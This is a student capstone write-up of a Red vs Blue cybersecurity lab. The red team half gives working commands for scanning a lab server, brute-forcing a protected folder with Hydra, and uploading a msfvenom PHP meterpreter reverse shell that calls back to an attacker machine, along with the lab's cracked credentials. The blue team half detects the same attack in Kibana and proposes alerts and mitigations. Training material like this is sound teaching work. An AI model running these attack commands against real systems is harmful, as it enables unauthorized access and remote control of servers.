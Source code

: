 ##### Note: The report of this project is attached ['Project Slide'](https://github.com/Omolabake94/CyberSecurity_Bootcamp/blob/main/WEEKLY_HOMEWORK/HW_20%20Red%20Vs%20Blue%20Project/Red%20Vs%20Blue%20Project.pdf) in pdf format
# Red Vs. Blue Team Project Summary
## Capstone Engagement, Assessment, Analysis, and Hardening of a Vulnerable System
## Red Team: The Attack
### Step 1: Discover the IP address of the Linux server
Run `nmap 192.168.1.0/24`
* From the Nmap scan we can see that port 80 and port 22 is open
- ![alt_text](RedvsBlueSC/image25.png)
* In the web browser, searched IP 192.168.1.105
* Information that helped with finding the secret folder is in the screenshot
* ![alt_text](RedvsBlueSC/image30.png)
### Step 2: Locate the hidden directory on the server.
- Navigated to the secret folder directory by typing: 192.168.1.105/company_folders/secret_folder into the search bar
- The directory asks for authentication in order to access it.The user with access to this folder is Ashton 
### Step 3: Brute force the password for the hidden directory.
- The folder is password protected and we used Hydra to brute force into the directory. We ran Hydra against Ashton's user name and wordlist
- Command: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
- ![alt_text](RedvsBlueSC/image29.png)
- The username is ashton and the password is leopoldo
- We accessed the Secret folder and we got the information below
- ![alt_text](RedvsBlueSC/image33.png)
- ![alt_text](RedvsBlueSC/image34.png)
- Inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.
- ![alt_text](RedvsBlueSC/image3.png)
### Step 4: Connect to the server via Webdav
- We simply used and online tool called Crack Station to break the password hash. https://crackstation.net
- - ![alt_text](RedvsBlueSC/image6.png)
- The password is revealed as: linux4u
### Step 5: Connect to the server via WebDAV
- Following the direction in the secret folder
- Open the File System
- Click Browse Network
- Type: dav://192.168.1.105/webdav into the url bar
- Enter Ryan's credentials to log in
### Step 6: Upload a PHP reverse shell payload
- Command to create the reverse shell in my Kali machine
- Commad: `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`
- Copy the reverse shell from Kali into the WebdDAV directory
- ![alt_text](RedvsBlueSC/image5.png)
- connect to the webdav folder by navigating to 192.168.1.105/webdav and use ryan's username and password `username:ryan password:linux4u`
- click on the shell.php file to activate it.
- ![alt_text](RedvsBlueSC/image4.png)
- To set up listener
- Run `msfconsole`
- Run `use exploit/multi/handler`
- Run `set payload php/meterpreter/reverse_tcp`
- Run `show options and point out they need to set the LHOST`
- Run `set LHOST 192.168.1.90`
- Run `exploit`
- ![alt_text](RedvsBlueSC/image2.png)
### Step 7: Find and capture the flag
- Run `shell` to drop into bash shell
- Command to find the flag: `find . -iname flag.txt`
- ![alt_text](RedvsBlueSC/image1.png)
## Blue Team
## Incident Analysis with Kibana
### Final dashboard
- ![alt_text](RedvsBlueSC/image10.png)
- ![alt_text](RedvsBlueSC/image11.png)
### 1. Identify the Offensive Traffic
- Run `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105` in which the source IP is my Kali machine and the destination machine is the victim web server
- Run `url.path: /company_folders/secret_folder/`
- The attack occurred in the last 7 days
- ![alt_text](RedvsBlueSC/image13-1.png)
- We can see 401, 301, 207 and 200 as the top responses
- We can also see with the HTTP Error Codes [Packetbeat] ECS panel:
- ![alt_text](RedvsBlueSC/image14.png)
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- ![alt_text](RedvsBlueSC/image15.png)
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- ![alt_text](RedvsBlueSC/image16.png)
- ALERT: Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to DoS conditions, as well as provide a hook against which to trigger alerts against suspiciously suspiciously fast series of requests that may be indicative of scanning.
### 2. Find the Request for the Hidden Directory
- Looking at the Top 10 HTTP requests [Packetbeat] ECS panel:
- ![alt_text](RedvsBlueSC/image17.png)
- we can see that the hidden directory (secret folder) folder was requested 16,075 times
- ![alt_text](RedvsBlueSC/image19.png)
- We can see in the same panel that the file connect_to_corp_server was requested 2 times
- ALERT: We could set an alert that goes off for any machine that attempts to access this directory or file.
- Mitigation: The secret_folder directory should be protected with stronger authentication. E.g., it could be moved to a server to which only key-based SSH access from whitelisted IPs is enabled
- The data inside of secret_folder should be encrypted at rest
### 3. Identify the Brute Force Attack
- identifying packets specifically from Hydra
- Using the search function search url.path: /company_folders/secret_folder/. This will show a few conversations involving this folder.
- ![alt_text](RedvsBlueSC/image18.png)
- Looking through the results and we notice that Hydra is identified under the user_agent.original section
- In the Top 10 HTTP requests [Packetbeat] ECS panel, we can see that the password protected secret_folder was requested 16,075 times, but the file inside that directory was only requested 2 times. So, out of 16,075 requests, only 2 were successful
- Take a look at the HTTP status codes for the top queries [Packetbeat] ECS panel
- ![alt_text](RedvsBlueSC/image20.png)
- We can see on this panel the breakdown of 401 Unauthorized status codes as opposed to 200 OK status codes.
- We can also see the spike in both traffic to the server and error codes.
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- ![alt_text](RedvsBlueSC/image21.png)
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- ![alt_text](RedvsBlueSC/image22.png)
- These are all results generated by the brute force attack with Hydra.
- ALERT: We could set an alert if 401 Unauthorized is returned from any server over a certain threshold that would weed out forgotten passwords. Start with 10 in one hour and refine from there
- We could also create an alert if the user_agent.original value includes Hydra in the name
- Create an alert that triggers after 3 lock outs by each user
- Mitigation: After the limit of 10 401 Unauthorized codes have been returned from a server, that server can automatically drop traffic from the offending IP address for a period of 1 hour. We could also display a lockout message and lock the page from login for a temporary period of time from that user.
- The fail2ban utility can be enabled to protect against brute force attacks
### 4. Find the WebDav Connection
- We can again see in the Top 10 HTTP requests [Packetbeat] ECS panel that the webdav folder was directly connected and files inside were accessed.
- ![alt_text](RedvsBlueSC/image23.png)
- We can see the passwd.dav file was requested as well as a file named shell.php
- ALERT: We can create an alert anytime this directory is accessed by a machine other than the machine that should have access
- Mitigation: Connections to this shared folder should not be accessible from the web interface.
- Connections to this shared folder could be restricted by machine with a firewall rule
### 5. Identify the Reverse Shell and meterpreter Traffic
- We can see the shell.php file in the webdav directory on the Top 10 HTTP requests [Packetbeat] ECS panel
- ![alt_text](RedvsBlueSC/image23.png)
- Remember that your meterpreter session ran over port 4444. Port 4444 is the default port used for meterpreter and the port used in all of their documentation. Because of this, many attackers forget to change this port when conducting an attack. You can construct a search query to find these packets.
- Query: `source.ip: 192.168.1.105 and destination.port: 4444`
- ALERT: We can set an alert for any traffic moving over port 4444.
- We can set an alert for any .php file that is uploaded to a server 
- Mitigation: File uploads should require authentication
- Removing the ability to upload files to this directory over the web interface would take care of this issue.
